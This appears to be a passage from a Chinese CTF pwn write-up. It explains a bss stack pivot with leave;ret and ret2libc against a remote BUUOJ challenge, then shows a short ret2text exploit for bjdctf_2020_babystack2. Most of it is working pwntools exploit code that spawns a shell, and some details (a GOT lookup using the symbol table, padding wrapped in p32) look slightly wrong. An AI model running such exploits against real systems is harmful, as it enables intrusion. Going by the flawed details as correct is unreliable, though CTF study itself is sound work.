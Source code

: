 其中s在bss段。

在read buf的位置正好可以覆盖返回地址，覆盖为s的地址，然后在s的地方写入构造好的payload。

s处：

>   p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

s：``0804A300`

先说下buf处payload的构造：`p32(0x18*'a') + p32(s_addr-4)+ p32(leave_ret)`

ebp指向save_rbp的位置，也就是填入p32(s_addr_4)的位置。然后将返回地址写为leave_ret 的地址。

首先，执行leave_ret(也就是mov rsp,rbp;pop rbp)，会将rsp和rbp通同时指向save_rbp的位置，然后pop rbp，将rbp指向bss段的s_addr-4的位置；再之后rsp再次进行leave_ret，执行完后这时rsp指向bss段s_addr-4的位置，rbp指向s_addr的位置。（pop rbp会将rbp+4）



```python
from pwn import *
context(log_level='debug')
#io = process("./spwn")
io = remote("node3.buuoj.cn",29713)
elf = ELF("./spwn")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
write_got = elf.sym['write']
main = elf.sym['main']
leave_ret = 0x08048408
s_addr = 0x0804A300
io.recvuntil("name?")
payload = p32(write_plt) + p32(main) + p32(1)+p32(write_got)+ p32(4)
io.sendline(payload)
io.recvuntil("say?")
payload1 = 0x18*'a'+p32(s_addr-4) + p32(leave_ret)
io.sendline(payload1)
write_addr = u32(io.recv(4))
base = write_addr - write_got
sys_addr = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = p32(sys_addr) + p32(main) + p32(bin_sh)
io.sendline(payload)
io.recvuntil("say?")
io.sendline(payload1)
io.interactive()
```



## 0x1F.bjdctf_2020_babystack2

ret2text

```python
from pwn import *
io = process("./bjdctf_2020_babystack2")
context(log_level='debug')
backdoor = 0x00400726

io.recv()
io.sendline("-1")

io.recv()
payload = 'a'*0x18 + p64(backdoor)

io.send(payload)


io.interactive()
```